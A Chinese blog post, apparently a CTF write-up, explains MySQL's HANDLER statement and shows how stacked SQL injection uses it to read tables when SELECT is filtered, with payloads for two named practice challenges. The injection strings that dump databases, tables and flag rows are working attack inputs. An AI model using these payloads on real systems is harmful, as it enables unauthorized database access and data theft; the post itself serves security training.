




> 本文同时发表于博客园：[原文](https://www.cnblogs.com/Xendria/p/19387010/handler-command-2otcdp)

HANDLER 是 MySQL 和 MariaDB 特有的非标准 SQL 语句。它允许直接与存储引擎（InnoDB、MyISAM）交互，绕过 SQL 优化器。

使用 HANDLER 通常分三步：打开表、读取数据、关闭表。

```sql
HANDLER table_name OPEN;      -- 打开表的句柄
HANDLER table_name READ (FIRST/NEXT/索引名 = ('值'));  -- 读取数据
-- HANDLER users READ idx = ('admin');  读取 idx 索引中值为 admin 的行
HANDLER table_name CLOSE;     -- 关闭句柄
```

**用途**：直接逐行读取表数据，**无需指定列名**，适合探测未知表结构。

## 例题 [GYCTF2020]Blacklist1

查 `1'` 发现回显异常。



过滤了很多关键字，可以尝试堆叠注入。先试 `show tables` 和 `show databases`，发现 `FlagHere`（查数据库名是伏笔）。





`select` 被过滤，于是改用 HANDLER。逐个库尝试，最后在 `supersqli` 命中：

```sql
?inject=1';                   -- 闭合原查询并结束语句
use supersqli;                -- 切换到数据库 supersqli
HANDLER FlagHere OPEN;        -- 打开表 FlagHere 的句柄
HANDLER FlagHere READ FIRST;  -- 读取表的第一行数据
HANDLER FlagHere CLOSE;       -- 关闭句柄
```

完整拼接后的 SQL（假设原查询为 `SELECT * FROM table WHERE id='用户输入'`）：

```sql
SELECT * FROM table WHERE id='1';
USE supersqli;
HANDLER FlagHere OPEN;
HANDLER FlagHere READ FIRST;
HANDLER FlagHere CLOSE;
```

## 例题 ctfshow web225



前三部分用 `show` 拿信息：

```text
username=';show%20databases;
username=';show%20tables%20from%20ctfshow_web;
username=';show%20columns%20from%20ctfshow_web.ctfshow_flagasa;
```

禁用了 `select`，用 HANDLER 读取：

```text
username=';handler%20ctfshow_flagasa%20open;handler%20ctfshow_flagasa%20read%20first;HANDLER%20ctfshow_flagasa%20CLOSE;
```

## 参考

- 堆叠注入背景见 [SQL 注入](/2026/11/22/web-sql-injection/)；命令执行见 [命令执行与 RCE](/2026/11/22/web-rce/)
- MySQL 官方文档：[HANDLER Statement](https://dev.mysql.com/doc/refman/8.0/en/handler.html)
